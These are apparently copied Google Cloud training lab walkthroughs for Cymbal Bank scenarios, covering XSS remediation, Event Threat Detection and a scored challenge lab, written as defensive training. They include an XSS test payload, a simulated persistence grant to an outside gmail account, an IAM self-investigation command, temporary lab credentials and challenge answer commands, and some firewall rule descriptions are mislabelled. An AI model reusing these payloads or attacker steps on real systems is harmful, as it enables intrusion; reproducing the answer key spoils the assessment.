Note: html_escape_table is a dictionary that contains one-to-one pairings of special HTML characters like "<" to their text representation. You use this table to escape special HTML characters so your form ingests and interprets submissions as raw text only. You can refer to this What is HTML Escape? documentation for more information.
Now type CTRL+X, Y, and Enter to save your changes.
Re-run the application:
xxxxxxxxxxpython3 app.py
Copied!
Return to the Google Cloud console browser tab (you should still have the Web Security Scanner page open):
Click Run at the top of the page.
In your SSH Window, you should start to see logs where Web Security Scanner tests application URLs for potential vulnerabilities.
Output:
xxxxxxxxxx34.29.3.21 - - [23/Mar/2023 23:30:41] "GET /output HTTP/1.1" 200 -35.184.129.44 - - [23/Mar/2023 23:31:06] "GET /output HTTP/1.1" 200 -35.184.129.44 - - [23/Mar/2023 23:31:07] "GET /favicon.ico HTTP/1.1" 404 -34.68.231.45 - - [23/Mar/2023 23:31:09] "POST / HTTP/1.1" 302 -34.68.231.45 - - [23/Mar/2023 23:31:09] "GET /output HTTP/1.1" 200 -34.68.231.45 - - [23/Mar/2023 23:31:09] "GET /favicon.ico HTTP/1.1" 404 -35.184.129.44 - - [23/Mar/2023 23:31:17] "POST / HTTP/1.1" 302 -35.184.129.44 - - [23/Mar/2023 23:31:17] "GET /output HTTP/1.1" 200 -
While you are waiting for the results of the scan, login to the URL
http://<EXTERNAL_IP>:8080using your browser in a separate tab.The web form displays once again.
In the web form, enter the same string that you entered in before:
xxxxxxxxxx<script>alert('This is an XSS Injection')</script>
Copied!
Now click the POST button.
Verify that this time you receive the following string in the browser:
Note: Although this technique works in this simple scenario, for proper protection of your web application you need to use more advanced techniques and frameworks which are out of scope of this lab.
Explore the links below for more resources:
Return to the Google Cloud console, where you left off on the Web Security Scanner page.
Click Run at the top of the page to re-scan your application.
Soon after, you should notice that the results yield no more XSS vulnerabilities.
Click Check my progress to verify the objective.
Correct vulnerabilities and rescan your application using Web Security Scanner
Check my progress
Congratulations!
You have successfully demonstrated to the Cymbal Bank CTO how to identify and remediate XSS vulnerabilities with Google Cloud's powerful Web Security Scanner solution.
LAB - Detect and Investigate Threats with Security Command Center
Overview
Event Threat Detection is an integrated service of Security Command Center (SCC) that monitors Google Cloud logs for patterns signaling suspicious activities.
Container Threat Detection is another integrated service of SCC. This service can continuously monitor GKE working nodes. When it detects suspicious events, it analyzes them to confirm whether they can be treated as incidents or not.
In this lab, you receive hands-on practice with SCC's threat detection features and learn how to investigate and triage common vulnerabilities associated with events and virtual machines. You learn how to surface and manage your findings with SCC's Event Threat Detection features.
Objectives
In this lab, you learn how to perform the following tasks:
Initiate and mitigate a threat with Event Threat Detection.
Configure a cloud environment to detect threats.
Manage SCC findings with Event Threat Detection.
Prerequisites
It is recommended that you are familiar with the following before starting this lab:
Cloud computing concepts.
The Google Cloud console.
The Security Command Center interface.
Containers and Google Kubernetes Engine (this is recommended, but not required).
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxxstudent-03-352f3bc3fa17@qwiklabs.netCopied!
You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxx4mnnBMeMiRz5Copied!
You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field.
Scenario
Cymbal Bank is an American retail bank with over 2,000 branches in all 50 states. It offers comprehensive debit and credit services that are built on top of a robust payments platform. Cymbal Bank is a digitally transforming legacy financial services institution.
Cymbal Bank was founded in 1920 under the name Troxler. Cymbal Group acquired the company in 1975 after it had been investing heavily in Cymbal Group's proprietary ATMs. As the bank grew into a national leader, they put strategic emphasis on modernizing the customer experience both in-person at their branches and digitally through an app they released in 2014. Cymbal Bank employs 42,000 people nationwide and, in 2019, reported $24 billion in revenue.
As a Cloud Security Engineer at Cymbal Bank, your task is to explore and implement robust security measures, leveraging Security Command Center's Event and Container Threat Detection capabilities for its Google Cloud resources. By integrating these services, you can ensure real-time monitoring, swift anomaly identification, and proactive vulnerability management for the event-driven architectures and containerized applications.
Enable the Security Command Center API
Click on the Navigation menu in the top left corner of the Google Cloud console.
Select APIs & Services from the drop down and click on Enable APIs & Services.
Click + Enable APIs & Services
Search for
Security Command Center APIin the search box.Click on Security Command Center API, then click Enable
Task 1. Initiate and mitigate a threat with Event Threat Detection
Your first task as a Cloud Security Engineer for Cymbal Bank is to initiate and mitigate non-compliant accounts threats with Event Threat Detection.
The Event Threat Detection service of SCC detects many threats by monitoring suspicious activities reported in Google Cloud logs. One of these activities might be delegating sensitive roles to an external user, such as someone who has a miscellaneous gmail.com account that isn't tied to your corporate domain.
This might happen in situations when an intruder has managed to access a GCP organization and now they are interested in establishing persistence. To do this, the hacker would grant sensitive roles to their @gmail.com account.
This delegation simulates establishing persistence. If a hacker accidentally gets temporary access to your system, they will need to establish persistence and to get access to a more stable account.
In the Cloud console, on the Navigation menu (
Press the Grant Access button.
In the "New principals" field, enter the demo email address
demouser1@gmail.com.For the Role field, select BigQuery > BigQuery Admin and click Save.
Open the Navigation menu (
Change the Time Range dropdown to the Last 6 hours.
You should see three Findings, two of which are related to the access you just granted:
Non org IAM member
Persistence: IAM anomalous grant
Click on the Finding Non org IAM member and scroll down to check the "Source display name" in the description of this Finding.
Ensure that the display name is set to
Security Health Analytics—this is the SCC service that detected a misconfiguration in your Google Cloud Project.Close the window with the Finding.
Click on the other Finding, Persistence: IAM anomalous grant, and scroll down to check the "Source display name" in the description of this Finding.
Ensure that the display name is set to
Event Threat Detection—this is the SCC service that detected a misconfiguration in your Google Cloud Project.Scroll to the top of the window and select the Source Properties tab.
In this tab, expand the Properties > sensitiveRoleGrant field.
Here you can find the most important characteristics of this finding:
principalEmail: who performed the suspicious action
bindingDetails: information about the role and the member to whom this role has been granted
members: to whom the permission has been granted
Close the Finding window.
From the Navigation menu (
Select the checkbox next to the
demouser1@gmail.comprincipal and click the button Remove Access.Click Confirm.
Open the Navigation menu (
Note that the "Non org IAM member" finding has disappeared from the list of findings. This is because the Security Health Analytics service has checked the updated configuration of IAM policies and deactivated this Finding.
Note: If you still see this Finding in the list, please refresh the browser tab.
The Finding "Persistence: IAM anomalous grant" has not changed its status. It was initiated by the ETD service, and cannot be deactivated automatically. You have already investigated this Finding and can be sure that the user from the gmail.com domain does not have access to your project.
Click Check my progress to verify the objective.
Initiate and mitigate a threat with Event Threat Detection
Check my progress
Note: If you are receiving less than 20 points for this task, in the "Checkpoints" right-hand column, click the Check my progress button a couple of times.
Task 2. Configure a cloud environment to detect threats
Now that you've investigated and checked for non-compliant accounts, you need to configure Cymbal's environment to detect service account threats through logging.
Many logs in Google Cloud are enabled by default, but for detecting specific threats, you need to enable additional data access logs. In this exercise, you investigate the Service Account Self-Investigation threat.
In this scenario, a malicious actor exploits vulnerable software on a virtual machine and obtains access to the Default Service Account (which was used to create the instance). The actor wants to understand what they can do in the Google Cloud environment. To check their permissions, the actor calls the projects.getIamPolicy method. SCC should detect and report this suspicious activity recorded in the logs.
For SCC to detect this activity, you need to enable Resource Manager Admin Read logs.
In the Cloud console, open the Navigation menu (
Note: You can safely ignore the message: "You don't have permission to view inherited audit logs configuration data for one or more parent resources."
In the list of services, find Cloud Resource Manager API and select the checkbox associated with it.
Note: If you cannot find it, scroll down to the parameter "Rows per page" and set its value to 200.
On the right side of the tab, find the configuration frame: Cloud Resource Manager API - Permission Types.
Select the Admin Read checkbox and click Save.
Now Resource Manager Data Read audit logs are collected and Event Threat Detection can analyze them.
Create a virtual machine with default service account access
For reproducing the scenario, you need to create a new virtual machine with a default Service Account and cloud-platform access scope.
Open the Navigation menu (
Click the Create Instance button.
In the Machine configuration:
Select region as
europe-west1and set zone aseurope-west1-b.
Click Security.
In the Access scopes section, select the Allow full access to all Cloud APIs value.
Leave all other parameters set to their default value.
Click Create to launch the new VM instance.
Once the instance is created, click on the SSH button.
Accept the authorization prompts when the new SSH window opens.
In the SSH session, enter the following command:
xxxxxxxxxxgcloud projects get-iam-policy $(gcloud config get project)
Copied!
You should see the list of IAM permissions granted to users in the Google Cloud project.
Open the Navigation menu (
Set the value of the time range selector to Last hour.
You should see 5 Security Findings related to the instance you just created:
Discovery: Service Account Self-Investigation
Full API access
Default service account used
Compute secure boot disabled
Public IP address
The Finding "Discovery: Service Account Self-Investigation" was initiated by Event Threat Detection (ETD), which classifies findings with the THREAT Finding Class.
Other findings have been initiated by the Security Health Analytics component, which classifies Findings by MISCONFIGURATION.
Click on the Finding, Discovery: service account self-investigation.
Select the Source Properties tab at the top of the window.
Now expand the field properties > serviceAccountGetsOwnIamPolicy.
Inspect the following values:
principalEmail - the email address of the Service Account that is investigating its own permissions
callerIp - IP address from which the
projects.getIamPolicymethod was called. In our case it should be the external IP address of the virtual machineinstance-1.
Exit out of the Finding window.
Outside of this scenario, this Finding can inform you that your virtual machine and the default Service Account have been compromised and you need to investigate and contain this incident.
Mute the finding you've investigated
Now that you've investigated the finding, mute it.
Select the checkbox next to the Discovery: Service Account Self-Investigation Finding.
Expand the Mute options drop-down list.
Then select the Apply mute override option.
Ensure that this Finding no longer appears in the SCC interface.
Click Check my progress to verify the objective.
Configure a cloud environment to detect threats
Check my progress
Task 3. Manage SCC findings with Event Threat Detection
When detecting some threats you may need to enable additional logs, which are not enabled by default. For detecting some findings, you also need to create additional configurations, such as DNS policies.
This allows you to detect malicious software running on compute resources and to identify well-known malicious DNS addresses.
When a DNS request is made on a virtual machine, this query is not logged by default, and in turn SCC cannot detect connections to malicious internet resources.
In the previous task, you enabled logs for the Resource Manager service using an IAM configuration. For logging all DNS queries, you need to create a DNS policy with logging enabled.
Note: You can refer to the Use logging and monitoring reference guide to learn more about logging and monitoring metrics for Cloud DNS.
To enable full DNS query logging, open the Navigation menu (
Click the DNS Server Policies tab and click the Create Policy button.
Enter
dns-test-policyfor the name of the DNS policy.Select the On radio button for DNS logs.
In the "Alternate DNS servers" part, select default from the network dropdown and click OK.
Click the Create button.
Now return to the SSH session of your virtual machine and try connecting to the malicious URL by running the following command:
xxxxxxxxxxcurl etd-malware-trigger.goog
Copied!
You should receive output similar to the following.
Output:
xxxxxxxxxx<!DOCTYPE html><html lang="en-us"><meta charset="utf-8"><title>ETD Malware Trigger</title><p>This domain is used to trigger a malware finding in Google Event Threat Detection. For more information, please visit <a href="https://cloud.google.com/event-threat-detection">https://cloud.google.com/event-threat-detection</a>
Return to the Google Cloud console browser tab.
Open the Navigation menu (
You should now see a new threat appear, "Malware: Bad Domain".
Note: If you don't see the new threat, refresh your browser window.
Click on this Finding.
In the new window, click on the Source properties tab.
Expand the Properties field and examine the following:
Domains: the list of domains for which the instance requested address resolution
InstanceDetails: the ID of the instance that connected to the "malicious" domain
Close the Finding Window.
Select the checkbox associated with the Finding, Malware: Bad Domain.
Expand the Mute Options drop-down list.
Click Apply mute override. This Finding is now removed from the SCC interface.
From the Navigation menu (
Select the checkbox next to the virtual machine instance you created previously and click Delete.
Confirm the delete action and click Delete.
Click Check my progress to verify the objective.
Manage SCC findings with Event Threat Detection
Check my progress
Congratulations!
In this lab, you learned how to initiate and mitigate a threat with Event Threat Detection, configure a cloud environment to detect threats, and manage SCC findings with Event Threat Detection.
LAB - Mitigate Threats and Vulnerabilities with Security Command Center: Challenge Lab
Overview
In a challenge lab you’re given a scenario and a set of tasks. Instead of following step-by-step instructions, you will use the skills learned from the labs in the course to figure out how to complete the tasks on your own! An automated scoring system (shown on this page) will provide feedback on whether you have completed your tasks correctly.
When you take a challenge lab, you will not be taught new Google Cloud concepts. You are expected to extend your learned skills, like changing default values and reading and researching error messages to fix your own mistakes.
To score 100% you must successfully complete all tasks within the time period!
This lab is recommended for students who have enrolled in the Mitigate Threats and Vulnerabilities with Security Command Center skill badge. Are you ready for the challenge?
Topics tested
Create mute rules for Cymbal Bank
Analyze and fix Cymbal Bank's high vulnerability findings
Identify application vulnerabilities with SCC's security scanning features
Export Cymbal Bank Findings to a Google Cloud Storage Bucket
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
Challenge scenario

Cymbal Bank is an American retail bank with over 2,000 branches in all 50 states. It offers comprehensive debit and credit services that are built on top of a robust payments platform. Cymbal Bank is a digitally transforming legacy financial services institution.
Cymbal Bank was founded in 1920 under the name Troxler. Cymbal Group acquired the company in 1975 after it had been investing heavily in Cymbal Group's proprietary ATMs. As the bank grew into a national leader, they put strategic emphasis on modernizing the customer experience both in-person at their branches and digitally through an app they released in 2014. Cymbal Bank employs 42,000 people nationwide and, in 2019, reported $24 billion in revenue.
In this challenge, you are a cloud security engineer tasked with securing Cymbal Bank's Google Cloud environment by leveraging Security Command Center's features. You have performed these tasks in previous labs. Now, it's your turn to demonstrate your proficiency with Security Command Center by implementing advanced threat detection and mitigation strategies, optimizing access controls, and ensuring compliance with industry regulations and best practices.
Task 1. Configure the environment
First, make some baseline configurations to Cymbal Bank's environment, so you can implement robust security controls with Security Command Center.
Open the navigation menu and select Security > Security Command Center > Findings.
From the time range selector, select Last 180 days. Your output should be similar to the following:
Warning: For all SCC interfaces you interact in this challenge lab, ensure that the time range selected is always set to 180 days! If you don't configure this properly, you may not be able to identify or verify any of the requirements for a task.
Task 2. Create mute rules for Cymbal Bank
Cymbal Bank is not interested in surfacing findings against certain resources in their Google Cloud environment.
For this task, create three mute rules that address the following:
| Name | Finding | Description |
|---|---|---|
muting-flow-log-findings | Flow logs disabled | Rule for muting VPC Flow Logs |
muting-audit-logging-findings | Audit logging disabled | Rule for muting audit logs |
muting-admin-sa-findings | Admin service account | Rule for muting admin service account findings |
Warning: Ensure that the time range selected is always set to 180 days! If you don't configure this properly, you may not be able to identify or verify any of the requirements for a task.
Note: You can find what to place in your Finding Query by exploring the Finding's details in SCC.
xxxxxxxxxxgcloud scc muteconfigs create muting-flow-log-findings \--project=$DEVSHELL_PROJECT_ID \--location=global \--description="Rule for muting VPC Flow Logs" \--filter="category=\"FLOW_LOGS_DISABLED\"" \--type=STATICgcloud scc muteconfigs create muting-audit-logging-findings \--project=$DEVSHELL_PROJECT_ID \--location=global \--description="Rule for muting audit logs" \--filter="category=\"AUDIT_LOGGING_DISABLED\"" \--type=STATICgcloud scc muteconfigs create muting-admin-sa-findings \--project=$DEVSHELL_PROJECT_ID \--location=global \--description="Rule for muting admin service account findings" \--filter="category=\"ADMIN_SERVICE_ACCOUNT\"" \--type=STATIC
Click Check my progress to verify the objective.
Assessment Completed!
Create mute rules for Cymbal Bank
Check my progress
Assessment Completed!
Task 3. Analyze and fix Cymbal Bank's high vulnerability findings
Cymbal Bank wants to remove two high severity Findings in their Google Cloud environment. You are tasked with using SCC to identify and follow the steps laid out to fix the following high severity Findings so they are no longer vulnerable:
Open SSH port
Open RDP port
Ensure that these rules are not facing the public internet. You can use the IP address 35.235.240.0/20 as a replacement for the ones facing the public internet.
xxxxxxxxxx# Delete the existing rulegcloud compute firewall-rules delete default-allow-rdp# Create a new rule with the updated source IP rangegcloud compute firewall-rules create default-allow-rdp \--source-ranges=35.235.240.0/20 \--allow=tcp:3389 \--description="Allow HTTP traffic from 35.235.240.0/20" \--priority=65534# Delete the existing rulegcloud compute firewall-rules delete default-allow-ssh --quiet# Create a new rule with the updated source IP rangegcloud compute firewall-rules create default-allow-ssh \--source-ranges=35.235.240.0/20 \--allow=tcp:22 \--description="Allow HTTP traffic from 35.235.240.0/20" \--priority=65534
Click Check my progress to verify the objective.
Assessment Completed!
Fix Cymbal Bank's high vulnerability findings
Check my progress
Assessment Completed!
Task 4. Identify application vulnerabilities with SCC's security scanning features
In addition to resolving any infrastructure findings, you also need to identify any application vulnerabilities. In many cases, application vulnerabilities can be introduced unknowingly, so as a cloud security engineer you want to be especially diligent of any new web applications running in your environment.
Cymbal Bank wants to test-run Web Security Scanner against a sample application deployed in this environment to ensure it is functioning properly. When you started this lab, a Terraform script deployed a sample banking web application running on a Google Compute Engine instance.
To run a Web Security scan, the External IP of the Compute Engine VM Instance needs to be static.
On the Navigation menu, select Compute Engine > VM instances > cls-vm. On the Details page, click Edit.
In the Network Interface section, expand the default network.
Click the "External IPv4 address" dropdown and click Reserve Static External IP address .
Give it the name
static-ipand click Reserve.Click Save.
Find the external IP address of the instance.
Replace
YOUR_EXTERNAL_IPin the URL field below with that IP address, and open the URL in a new browser tab:
xxxxxxxxxxhttp://<YOUR_EXTERNAL_IP>:8080
Copied!
A Cymbal Bank corporate banking portal with a web form should appear.
For this task, run a Web Security scan against this application's URL (with port 8080).
Click Check my progress to verify the objective.
Assessment Completed!
Run a Web Security Scan
Check my progress
Assessment Completed!
Task 5. Export Cymbal Bank Findings to Google Cloud Storage
Cymbal Bank wants to keep information about security incidents, vulnerabilities and misconfigurations for several years for auditing purposes. As a Cloud Security Engineer, your final task is to export all existing Findings to a Google Cloud Storage Bucket with the following specifications:
Bucket name: scc-export-bucket-
qwiklabs-gcp-00-77121a1a2cc1Location type: regional
Location:
us-west1
The export should have the following properties:
Filename:
findings.jsonlFormat: JSONL
Time Range: All time
Click Check my progress to verify the objective.
Assessment Completed!
Export Cymbal Bank Findings to Google Cloud Storage
Check my progress
Assessment Completed!
Congratulations!
By completing this challenge lab, you proved that you can create mute rules, analyze and fix high vulnerability findings, identify application vulnerabilities with SCC's security scanning features., and export Findings to a Google Cloud Storage bucket.